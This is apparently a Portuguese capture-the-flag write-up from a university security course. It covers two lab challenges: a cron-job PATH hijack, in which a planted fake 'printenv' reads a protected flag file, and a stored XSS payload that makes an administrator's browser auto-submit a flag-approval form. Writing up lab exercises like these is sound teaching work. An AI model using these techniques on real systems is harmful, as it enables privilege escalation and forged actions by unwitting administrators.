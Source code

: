 # Desafios Extra/Opcionais

## British Punctuality

Explorando inicialmente o servidor, encontramos no diretório `home/flag_reader` um script `my_script.sh` que faz uso de um executável `/home/flag_reader/reader` cujo código fonte podemos ler no ficheiro `main.c`. Não temos permissões para escrever para nenhum destes ficheiros. Encontramos também  um diretório `flags` onde se encontra a flag que procuramos (`/flags/flag.txt`), no entanto, como seria esperado, não temos permissões para aceder a este diretório.  

`my_script.sh`  
```shell
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```  

`main.c`  
```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```  

 
```bash
nobody@330311abc802:/home/flag_reader$ cd ../..
nobody@330311abc802:/$ ls -d -l flags
drwxr-x--- 2 root flag_reader 60 Dec 17 16:15 flags
nobody@330311abc802:/$ cd flags
bash: cd: flags: Permission denied
```  

Destas informações percebemos que para chegar à flag vamos precisar das permissões do utilizador `flag_reader` (`root` também funcionaria).  

Atendendo ao nome do desafio e há descrição *This challenge runs with a strict schedule* surge-nos a ideia do `cron`, um *job scheduller* para sistemas Unix.   

No diretório `etc/cron.d` encontramos um ficheiro `my_cron_script`.  

`my_cron_script`  
```shell
PATH=/bin:/usr/bin:/usr/local/bin

* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```  

Interpretando o ficheiro percebemos que, a cada minuto, o script `my_script.sh` é corrido e o output do mesmo é escrito no ficheiro `/tmp/last_log`. Sabemos também que isto é feito com as permissões do utilizador `flag_reader`. Assim, a solução passa por encontrar e explorar uma vulnerabilidade no script que nos permita ler o ficheiro que contém a flag. No script é utilizado o comando `export`, pelo que concluimos que podemos, ao criar o ficheiro `tmp/env` alterar (por um minuto) as variáveis de ambiente do utilizador `flag_reader`. Isto é importante pois logo depois é utilizado o comando `printenv`, sem a indicação do caminho para o binário.  

```bash  
nobody@330311abc802:/$ whereis printenv
printenv: /usr/bin/printenv
```  

Juntando estas informações, podemos criar um novo ficheiro `printenv`, e adicionar o seu caminho à variável `PATH` para que seja utilizado no lugar do binário predefinido, podendo correr qualquer código shell com as permissões que queremos.

```bash
nobody@330311abc802:/tmp$ echo "PATH=/tmp:$PATH" > env
nobody@330311abc802:/tmp$ echo "cat /flags/flag.txt" > printenv
```

Depois do script ser executado basta ler o conteúdo do ficheiro `/tmp/last_log` e uma das linhas será a flag.

## Apply For Flag II

Verificou-se a existência do ID do pedido - `<requestID>` - e de um _form_ onde é possível inserir texto, que à partida não é devidamente tratado. Para efeitos de teste, deu-se um _input_ qualquer (_string_ "justification" no caso), que é verificado pelo _admin_ na página `http://ctf-fsi.fe.up.pt:5005/request/<requestID>`. 

![](./screenshots/apply_for_flag2_1.png) 

![](./screenshots/apply_for_flag2_2.png) 

Na página utilizada pelo _admin_, existe o botão `Give the flag` cujo código fonte se encontra no _screenshot_ abaixo. O objetivo é fazer o administrador clicar nesse botão.

![](./screenshots/apply_for_flag2_3.png) 

Para isso, copiou-se o código fonte do botão, alterou-se o atributo `action` e removeu-se o `disabled`. Para além disso, acrescentou-se o _script_ que realiza a ação de carregar no botão ao carregar a página. Este foi o _input_:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<requestID>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
</form>
<script> 
    window.onload = function(){
        document.getElementById('giveflag').click();
    } 
</script>
``` 

- Nota: neste caso `<requestID>` seria `fa9d70d9d2ed6c76ac2f46f6f203bb80b6f46dbb`.

![](./screenshots/apply_for_flag2_5.png) 

![](./screenshots/apply_for_flag2_4.png) 

![](./screenshots/apply_for_flag2_6.png) 

![](./screenshots/apply_for_flag2_7.png) 



